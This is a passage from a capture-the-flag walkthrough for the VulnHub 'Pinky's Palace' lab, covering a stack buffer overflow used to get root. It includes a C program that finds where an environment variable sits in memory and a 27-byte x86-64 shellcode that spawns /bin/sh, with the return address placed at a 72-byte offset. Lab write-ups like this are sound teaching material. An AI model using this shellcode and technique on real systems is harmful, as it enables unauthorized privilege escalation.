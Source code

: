 Now that we can control RIP with the offset at 72 bytes, we can place our shellcode in an environment variable and use the following code to determine the memory address of the environment variable where the shellcode begins. This will be our return address in the exploit.

{% highlight c linenos %}
# cat getenvaddr.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char *ptr;

    if(argc < 3) {
        printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]); /* get env var location */
    ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
    printf("%s will be at %p\n", argv[1], ptr);
}
{% endhighlight %}

Since we are using the environment variable to store our payload, the size of the payload shouldn't be an issue. Having said that, I still prefer a minimalist approach and decided to use the shortest [shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php) (27 bytes) to execute `/bin/sh` in x86-64.

```
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

Now let's get the party going after we've copied `getenvaddr.c` over with `scp`. 

![screenshot-28](/assets/images/posts/pinkys-palace-walkthrough/screenshot-28.png)

A perfectionist may argue that `euid=0` is not a proper proper root shell. Well, that can be fixed rather easily.

![screenshot-28](/assets/images/posts/pinkys-palace-walkthrough/screenshot-29.png)


[1]: https://www.vulnhub.com/entry/pinkys-palace-1,225/
[2]: https://twitter.com/@Pink_P4nther
[3]: https://www.vulnhub.com